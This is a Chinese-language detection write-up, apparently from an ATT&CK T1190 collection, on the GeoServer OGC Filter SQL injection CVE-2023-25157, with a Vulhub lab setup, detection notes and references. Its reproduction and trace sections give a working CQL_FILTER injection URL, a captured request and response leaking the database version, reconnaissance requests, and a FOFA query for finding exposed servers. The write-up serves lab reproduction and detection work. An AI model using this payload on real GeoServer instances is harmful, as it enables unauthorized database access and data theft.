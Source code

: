 # T1190-CVE-2023-25157-GeoServer OGC Filter SQL注入漏洞

## 来自ATT&CK的描述

使用软件，数据或命令来利用面向Internet的计算机系统或程序中的弱点，从而导致意外或无法预期的行为。系统的弱点可能是错误、故障或设计漏洞。这些应用程序通常是网站，但是可以包括数据库（例如SQL），标准服务（例如SMB 或SSH）以及具有Internet可访问开放的任何其他应用程序，例如Web服务器和相关服务。根据所利用的缺陷，这可能包括“利用防御防卫”。

如果应用程序托管在基于云的基础架构上，则对其进行利用可能会导致基础实际应用受到损害。这可以使攻击者获得访问云API或利用弱身份和访问管理策略的路径。

对于网站和数据库，OWASP排名前10位和CWE排名前25位突出了最常见的基于Web的漏洞。

## 测试案例
GeoServer 是OpenGIS Web服务器规范的J2EE实现，利用GeoServer可以方便的发布地图数据，允许用户对特征数据进行更新、删除、插入操作。

在版本2.22.1和2.21.4及以前，多个OGC表达式中均存在SQL注入漏洞。

参考链接：
- https://github.com/murataydemir/CVE-2023-25157-and-CVE-2023-25158
- https://github.com/advisories/GHSA-7g5f-wrx8-5ccf

## 检测日志

HTTP.log

## 测试复现

### 漏洞环境

FOFA: app = "GeoServer"

执行如下命令启动一个SeoServer 2.22.1：

```
docker-compose up -d
```
环境启动后，访问即可查看到GeoServer的首页。http://your-ip:8080/geoserver

## 漏洞复现

在利用漏洞前，需要目标服务器中存在类型是PostGIS的数据空间（datastore）和工作空间（workspace）。在Vulhub中，已经包含满足条件的工作空间，其信息如下：

- 工作区名称：vulhub
- 数据存储名称：pg
- 要素类型（表）名称：example
- 要素类型的属性之一：name

利用这些已知参数，发送如下URL即可触发SQL注入漏洞：

```
http://your-ip:8080/geoserver/ows?service=wfs&version=1.0.0&request=GetFeature&typeName=vulhub:example&CQL_FILTER=strStartsWith%28name%2C%27x%27%27%29+%3D+true+and+1%3D%28SELECT+CAST+%28%28SELECT+version()%29+AS+integer%29%29+--+%27%29+%3D+true
```

![test](1.jpg)

获取GeoServer中WFS服务的图层信息（包括支持的 WFS 版本、支持的数据格式、支持的查询方式、支持的空间参考系统等）

```
GET /geoserver/ows?service=WFS&version=1.0.0&request=GetCapabilities HTTP/1.1
```

获取某个图层的属性名称

```
GET /geoserver/wfs?request=DescribeFeatureType&version=2.0.0&service=WFS&outputFormat=application/json&typeName=图层名称 HTTP/1.1
```

## 测试留痕

```yml
GET /geoserver/ows?service=wfs&version=1.0.0&request=GetFeature&typeName=vulhub:example&CQL_FILTER=strStartsWith(name%2C%27x%27%27)+%3D+true+and+1%3D(SELECT+CAST+((SELECT+version())+AS+integer))+--+%27)+%3D+true HTTP/1.1
Host: 192.168.101.129:8080
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:102.0) Gecko/20100101 Firefox/102.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Connection: keep-alive
Upgrade-Insecure-Requests: 1

HTTP/1.1 200 OK
X-Frame-Options: SAMEORIGIN
Content-Type: text/xml;charset=utf-8
Content-Encoding: gzip
Transfer-Encoding: chunked
Server: Jetty(9.4.48.v20220622)

<?xml version="1.0" ?>
<ServiceExceptionReport
   version="1.2.0"
   xmlns="http://www.opengis.net/ogc"
   xmlns:xsi="http://www.w3.org/2001/XMLSchema-instance"
   xsi:schemaLocation="http://www.opengis.net/ogc http://schemas.opengis.net/wfs/1.0.0/OGC-exception.xsd">
   <ServiceException>
      java.lang.RuntimeException: java.io.IOException
java.io.IOExceptionERROR: invalid input syntax for type integer: &quot;PostgreSQL 14.8 on x86_64-pc-linux-musl, compiled by gcc (Alpine 12.2.1_git20220924-r10) 12.2.1 20220924, 64-bit&quot;
</ServiceException></ServiceExceptionReport>
```

流量包见同目录下pcap文件。

## 检测规则/思路
对请求路径及返回内容进行重点关注。

研判分析要点：
- 请求方法GET
- 请求url路径及路径中是否包含SQL语句
- 状态码200，结合返回body信息，判断攻击是否成功。

辅助判断：上下文关联分析，是否存在获取GeoServer中WFS服务的图层信息、获取某个图层的属性名称等行为

## 参考推荐

MITRE-ATT&CK-T1190

<https://attack.mitre.org/techniques/T1190/>

GeoServer OGC Filter SQL注入漏洞（CVE-2023-25157）

<https://github.com/vulhub/vulhub/blob/master/geoserver/CVE-2023-25157/README.zh-cn.md>

GeoServer SQL注入漏洞复现（CVE-2023-25157）

<https://blog.csdn.net/qq_41904294/article/details/131117123>

GeoServer SQL 注入漏洞分析（CVE-2023-25157）

<https://www.freebuf.com/vuls/371011.html>
